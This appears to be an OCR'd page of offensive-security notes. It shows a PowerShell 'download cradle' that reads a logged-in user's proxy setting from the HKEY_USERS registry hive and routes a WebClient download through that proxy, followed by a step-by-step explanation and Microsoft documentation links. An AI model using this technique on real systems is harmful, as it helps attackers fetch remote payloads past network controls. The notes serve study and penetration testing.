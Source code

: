     New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
    $keys = Get-ChildItem 'HKU:\' ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
    $proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
    [system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
    $wc = new-object system.net.WebClient
    $wc.DownloadString("<link>")

&nbsp;

Explanation :

1. We first map the HKEY_USERS registry hive.
2. We then filter in the keys which have **S-1-5-21** in them, SIDs which start with this pattern are User Accounts, exclusive of built-in accounts.
3. We then fetch the value of ProxyServer and store it in a variable
4. We can now set the proxy of the download cradle to this value
5. Followed by making a web request, we can see that it goes through the proxy server

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.net.webproxy?view=netframework-4.8
> - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-psdrive?view=powershell-7.2&viewFallbackFrom=powershell-6
> - https://support.microsoft.com/en-gb/topic/29615e3f-0bfc-6e3e-d377-e8986e243a30?msclkid=b900455cbbbd11ecba75059c38cf0d60
